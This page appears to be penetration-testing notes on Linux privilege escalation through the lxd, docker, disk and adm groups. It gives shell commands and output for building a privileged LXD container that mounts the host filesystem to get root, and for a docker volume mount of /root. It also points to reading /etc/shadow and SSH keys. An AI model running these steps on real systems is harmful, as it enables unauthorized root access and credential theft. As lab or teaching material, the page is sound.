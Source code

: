 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Privileged Groups

## LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.

```shell-session
devops@target:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image.

```shell-session
devops@target:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Start the LXD initialisation process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
devops@target:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Import the local image.

```shell-session
devops@target:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
devops@target:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.

```shell-session
devops@target:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell-session
devops@target:~$ lxc start r00t
devops@target:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers.&#x20;

One example would be running the command `docker run -v /root:/mnt -it ubuntu`. This command creates a new Docker instance with the /root directory on the host file system mounted as a volume.&#x20;

Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

### Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

### ADM

Members of the adm group are able to read all logs stored in `/var/log`. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

```shell-session
secaudit@target:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

To search through these log files use:

{% code title="Command" %}
```bash
find /var/log -type f -exec grep -l 'flag' {} + | xargs ls -la
```
{% endcode %}

{% code title="Command" %}
```bash
grep -ri flag
```
{% endcode %}

